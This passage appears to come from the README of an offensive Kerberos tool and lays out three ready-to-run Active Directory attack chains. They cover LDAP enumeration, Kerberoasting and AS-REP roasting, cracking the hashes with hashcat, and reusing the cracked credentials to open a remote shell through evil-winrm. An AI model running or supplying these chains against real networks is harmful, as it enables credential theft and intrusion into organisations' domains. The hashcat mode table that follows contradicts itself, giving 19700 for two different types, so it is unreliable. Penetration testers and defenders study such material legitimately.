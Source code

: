 ## 🎯 Integration with Other Tools

### Chain 1: LDAP → Kerberos → WinRM
```bash
# Full attack chain
../ldapseek/ldapseek.py dclist.txt --full -u user -p pass
./kerbseek.py --kerberoast --spns ../ldapseek/spns.txt -d CORP --dc dc01 -u user -p pass
hashcat -m 13100 tgs_hashes.txt rockyou.txt
../winrmseek/winrmseek.py iplist.txt -t -u cracked_user -p cracked_pass
evil-winrm -i target -u cracked_user -p cracked_pass
```

### Chain 2: ASREPRoast → Privilege Escalation
```bash
# Unauthenticated start
./kerbseek.py --asreproast-all -d CORP --dc dc01
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# Use first credential
../ldapseek/ldapseek.py dclist.txt --full -u cracked_user -p cracked_pass

# Kerberoast with new access
./kerbseek.py --kerberoast-all -d CORP --dc dc01 -u cracked_user -p cracked_pass
```

### Chain 3: CredSeek → Kerberos
```bash
# Find credentials
../credseek/credseek.py iplist.txt --deep

# Use found credentials for Kerberoasting
./kerbseek.py --kerberoast-all -d CORP --dc dc01 -u found_user -p found_pass
```

---

## 🔐 Encryption Types

### Supported Encryption Types

| Type | EncType | Hashcat Mode | Crackability |
|------|---------|--------------|--------------|
| RC4-HMAC | 23 | 13100 (TGS), 18200 (AS-REP) | ⚡ Fastest |
| AES128 | 17 | 19600 (TGS), 19700 (AS-REP) | 🐌 Slower |
| AES256 | 18 | 19700 (TGS), 19800 (AS-REP) | 🐌 Slowest |

### Why RC4-HMAC Matters

